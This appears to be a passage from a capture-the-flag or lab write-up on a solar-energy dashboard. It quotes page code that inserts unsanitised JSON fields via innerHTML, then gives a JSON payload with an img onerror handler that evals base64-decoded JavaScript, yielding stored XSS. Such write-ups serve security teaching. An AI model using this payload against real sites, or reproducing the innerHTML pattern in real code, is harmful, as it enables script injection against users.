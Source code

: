 ![alt text](../../assets/images/solar/image-5-old.png)

We sent a high consumption value and saw how the graph bars moved. The page code shows that we can perform an XSS (Cross-Site Scripting) attack, as it uses only `innerHTML` without sanitizing the `solarEnergy` and `consumedEnergy` properties of the sent JSON.

```javascript
...
            // Update labels with specific colors
            document.getElementById('solarEnergyLabel').innerHTML = `<span class="energy-value solar">${solarEnergy} kWh</span>`;
            document.getElementById('consumedEnergyLabel').innerHTML = `<span class="energy-value consumed">${consumedEnergy} kWh</span>`;
...
```

We can send a JSON like the following to execute any JavaScript on the `dashboard.php` page in the client/browser.

```json
{
  "solarEnergy": "<img src=x onerror=eval(atob(\/[base64encodeJavascriptCode]\/.source)); />",
  "consumedEnergy": 15
}
```
